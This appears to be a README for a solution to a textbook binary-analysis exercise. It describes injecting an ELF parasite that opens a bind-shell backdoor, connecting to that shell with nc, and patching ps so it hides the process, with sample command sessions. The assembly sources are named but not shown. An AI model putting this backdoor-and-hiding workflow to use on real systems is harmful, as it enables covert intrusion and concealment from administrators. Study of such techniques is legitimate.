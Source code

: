 # An ELF Parasite

Write your own ELF parasite and use elfinject to inject it into a program
of your choice. See whether you can make the parasite fork off a child
process that opens a backdoor. Bonus points if you can create a modiﬁed
copy of ps that doesn’t show the parasite process in the process listing.

## Solution

victim.c (acts as the host binary)\
elf-parasite.s (acts as a bind shell)

## Bonus Solution

ps-parasite.s (acts as the process hider)

## Sample Session

Victim machine:

```
$ gcc -o victim victim.c
$ nasm -f bin -o elf-parasite.bin elf-parasite.s
$ ./elfinject victim elf-parasite.bin ".parasite" 0x800000 0
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
```

Attacker machine:

```
$ nc -nv 10.0.0.33 19484
found 0 associations
found 1 connections:
     1: flags=82<CONNECTED,PREFERRED>
        outif en0
        src 10.0.0.37 port 61034
        dst 10.0.0.33 port 19484
        rank info not available
        TCP aux info available

Connection to 10.0.0.33 port 19484 [tcp/*] succeeded!
whoami
admin
exit
```

## Sample Session (Bonus)

```
$ nasm -f bin -o ps-parasite.bin ps-parasite.s
$ python3 ps-patcher.py # this patches calls to readproc/readproctab2
[*] Copying /bin/ps to [...]/ps-modified
[*] Applying readproc patch at offset 0x2cf9
[*] Applying readproctab2 patch at offset 0x2909
[*] Done applying patches
$ ./elfinject ps-modified ps-parasite.bin ".parasite" 0x800000 -1
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
$ # The victim process is hidden in all of the following ps outputs:
$ ./ps-modified
[...]
$ ./ps-modified aux
[...]
$ ./ps-modified -e
[...]
$ ./ps-modified -ef
[...]
$ ./ps-modified f (invokes readproctab2)
[...]

